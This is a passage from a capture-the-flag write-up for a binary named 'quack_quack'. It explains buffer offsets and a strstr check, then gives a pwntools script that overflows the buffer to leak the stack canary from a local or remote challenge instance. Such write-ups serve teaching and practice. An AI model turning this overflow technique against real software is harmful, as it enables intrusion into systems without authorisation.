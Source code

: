 ```
[  .............  ] // $rbp-0x78
[      Buffer     ] // lives in $rbp-0x80
```

Total of our input is **0x66 bytes** or **102 bytes in decimal**. Our input is started from `$rbp-0x80` until `$rbp-0x20 - 2` (8 bytes every memory cells). Max input of 102 bytes is not only contain junk or a bunch of `'A'` characters, but including the **`"Quack Quack "`** string that have **12 bytes**. So, the total bytes of our input will be 102 - 12 = 90 bytes - 1 = **89 bytes**. What is 1 byte ? it just not to make the program exit.

What is `strstr` function does? It just to **find a substring (param2) in the target string (param1)**.

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Okay, so our first input will be `"A"*89 + "Quack Quack "` . To get more clear of leaked information, I recommend you to see with pwntools.

### 3. Exploit the Binary

Here's the first script to leak the stack canary.

{% code title="leak_canary.py" lineNumbers="true" %}
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = True
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Maintain current session.
io.interactive()
```
{% endcode %}
